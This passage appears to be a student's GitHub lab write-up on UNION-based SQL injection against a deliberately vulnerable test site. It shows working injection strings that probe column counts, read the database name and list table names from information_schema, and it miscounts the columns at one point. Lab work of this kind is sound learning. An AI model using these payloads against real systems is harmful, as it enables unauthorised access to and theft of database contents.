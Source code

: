 # First Injection and Exploring

To start, the lab's first step is to analyze what happens if you tried an injection like this.
```
http://testphp.vulnweb.com/artists.php?artist=1
```
So before I did the injection, I looked over what information is publicly out in the site just so I can tell any differences after injecting. <br />

So then first tried the commands on the second link from my resources.<br />

Result: 
![image](https://github.com/user-attachments/assets/ab533ff6-7043-4fb4-9a2e-8a18aee6ef13)

Then I did: 
```
ORDER BY 1.
```
I did notice that the space in the URL translates to %20 but the site just went back to normal. <br />
![image](https://github.com/user-attachments/assets/96dd693d-4e1f-4868-bb68-4db854ee4c30)  <br />


removing the space result to an error again.<br />
![image](https://github.com/user-attachments/assets/c61e8fc5-c1f2-4926-bbbb-0cd2cf0ab335) <br />


kept doing ORDER BY, ‘til it errored on 4. So there’s only 4 columns on this table, the artists table.<br />
![image](https://github.com/user-attachments/assets/89245b7d-3fa1-4791-9e49-f8fd5743a812)

Then did <br />
```
union select 1,2,3
```
Which nothing showed up.<br />
![image](https://github.com/user-attachments/assets/34a255aa-c42f-4d73-aeb9-16bf52baf154)<br />

I changed artist=1 to a -1. <br />
This time it showed some numbers. It could mean two artists in a table or it’s the second field name. <br />
I am unsure yet. I moved on to the next steps.<br />
![image](https://github.com/user-attachments/assets/df809abf-ac27-476e-9d6b-79e67d2258d3)<br />

Getting the database name. 
```
http://testphp.vulnweb.com/artists.php?artist=-1%20union%20select%201,database(),3
```
![image](https://github.com/user-attachments/assets/099f5e37-97b0-48ca-ad27-4377dcb009ab) <br />


I tried to look for any tables in the database: 
```
http://testphp.vulnweb.com/artists.php?artist=-1 union select 1,table_name,3 from information_schema.tables where table_schema=database() limit 0,1 
```
![image](https://github.com/user-attachments/assets/ce3fa655-dcab-4ded-9df1-65f222f5de95)<br />


Now, it showed a name “artists”. Assuming that’s the table name. and the artist is one of the field names.<br />

Then I changed limit 0,1 to 1,1 and continued changing it. <br />
```
union select 1,table_name,3 
from information_schema.tables 
where table_schema=database() limit 1,1 
```
table carts<br />
![image](https://github.com/user-attachments/assets/43b6052f-5d07-4eac-a9f7-7bc197fb59d1) <br /><br />

2,1 categ<br />
Table categ<br />
![image](https://github.com/user-attachments/assets/edb23b86-91cb-4838-9832-6331582f4b80) <br />

Then I jumped higher jumped higher. 5,1 pictures<br />
![image](https://github.com/user-attachments/assets/aab16d22-1624-4536-ae47-41c5c21b5c36)<br /><br />

9,1 was blank to I went back, 8,1 I also blank. So went further back to 7,1 which showed users. <br />
![image](https://github.com/user-attachments/assets/bd35f7db-328d-4253-bf98-38ffa8ea52a2)<br />
![image](https://github.com/user-attachments/assets/2500bf9c-b948-4c13-b7fb-48df18f86f7f)<br />

<b> So that concludes there are 8 tables.<br />
starting from 0,1-7,1.<br />
</b>

>[!NOTE]
> Next, [Breaking more queries](https://github.com/cherryot02/SQL-Injections/blob/main/Breaking-More-Queries.md)!





